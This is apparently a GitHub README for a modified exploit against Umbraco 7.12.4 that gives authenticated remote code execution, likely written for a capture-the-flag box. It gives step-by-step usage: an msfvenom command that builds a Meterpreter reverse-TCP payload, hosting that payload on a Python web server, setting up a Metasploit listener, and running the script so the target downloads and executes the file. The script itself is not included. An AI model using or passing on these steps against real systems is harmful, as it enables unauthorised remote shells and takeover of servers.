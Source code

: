 # Remote

## Umbraco 7.12.4 Authenticated RCE (updated payload)

Original exploit: https://www.exploit-db.com/exploits/46153

Since the original exploit is a PoC it just pops up a calculator,I updated the script to download and execute a file with powershell. Build your own payload and use it with this script.

### Usage:

Create a payload: `sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.x.x LPORT=4444 -f exe -o payload.exe`

Host the payload: `sudo python -m SimpleHTTPServer 80`

Change IP Address to python web server's IP Address (line 25)

Change username,password & host (line 33,34,35)

Setup a listener with metasploit's `multi/handler`

Run the script: `python3 umbraco_auth_rce.py`
